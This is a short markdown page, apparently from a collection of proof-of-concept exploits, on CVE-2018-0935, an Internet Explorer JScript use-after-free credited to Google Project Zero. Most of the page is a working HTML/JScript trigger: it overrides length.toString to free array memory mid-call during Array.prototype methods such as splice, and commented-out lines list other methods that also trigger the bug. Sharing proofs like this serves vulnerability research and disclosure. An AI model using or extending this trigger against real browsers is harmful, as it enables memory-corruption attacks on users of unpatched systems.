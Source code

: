 # CVE-2018-0935

- Report: Jan 2018
- Fix: April 2018
- Credit: ifratric of Google Project Zero

## PoC

```html
<meta http-equiv="X-UA-Compatible" content="IE=8"></meta>
<script language="Jscript.Encode">

var vars = {};

function f() {
  alert('in f');
  for(var i=0; i<40000; i++) {
    vars[i] = 1;
  }
  vars.length = 0;
  CollectGarbage();
  alert(this);
}

for(var i=0; i<20000; i++) {
  vars[i] = [];
}
vars.length = [];
for(var i=20000; i<40000; i++) {
  vars[i] = [];
}

vars.length.toString = f;

// all of these work, just uncomment the one you want to test
//Array.prototype.join.call(vars);
//Array.prototype.reverse.call(vars);
//Array.prototype.sort.call(vars);
//Array.prototype.pop.call(vars);
//Array.prototype.push.call(vars, 1);
//Array.prototype.shift.call(vars);
//Array.prototype.unshift.call(vars, 1);
//Array.prototype.slice.call(vars, 1);
Array.prototype.splice.call(vars, 1, 1);

alert('failed');

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-0935)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1506)
